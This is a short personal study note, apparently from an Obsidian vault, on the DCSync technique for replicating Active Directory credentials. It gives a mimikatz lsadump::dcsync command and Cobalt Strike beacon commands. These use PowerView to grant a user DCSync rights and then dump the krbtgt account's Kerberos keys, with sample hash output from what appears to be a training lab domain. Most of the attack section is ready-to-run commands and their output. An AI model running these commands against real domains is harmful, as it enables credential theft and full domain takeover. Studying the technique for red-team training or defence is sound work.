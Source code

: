 ```yaml
---
creation date: September 26th 2022
last modified date: September 26th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[DCSync]]  
___

## Description:  

DCSync is a technique which replicates the MS-DRSR protocol to replicate AD information, including password hashes. Under normal circumstances, this is only ever performed by (and between) Domain Controllers.

### With mimikatz
`/user` allows you to specify which user instead of doing all account on the domain.
```
mimikatz # lsadump::dcsync /user:Administrator
```

### In CobaltStrike
`Add-DomainObjectAcl` from PowerView can be used to add a new ACL to a domain object. If we have access to a domain admin account, we can grant dcsync rights to any principal in the domain (a user, group or even computer).

```
beacon> getuid
[*] You are DEV\nlamb

beacon> powershell Add-DomainObjectAcl -TargetIdentity "DC=dev,DC=cyberbotic,DC=io" -PrincipalIdentity bfarmer -Rights DCSync
```

Now do a DCsysnc through cobalt strike
```
beacon> getuid
[*] You are DEV\bfarmer

beacon> dcsync dev.cyberbotic.io DEV\krbtgt
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account

[...snip...]

* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.CYBERBOTIC.IOkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa
      aes128_hmac       (4096) : 473a92cc46d09d3f9984157f7dbc7822
      des_cbc_md5       (4096) : b9fefed6da865732
```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 26th 2022 (12:11 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
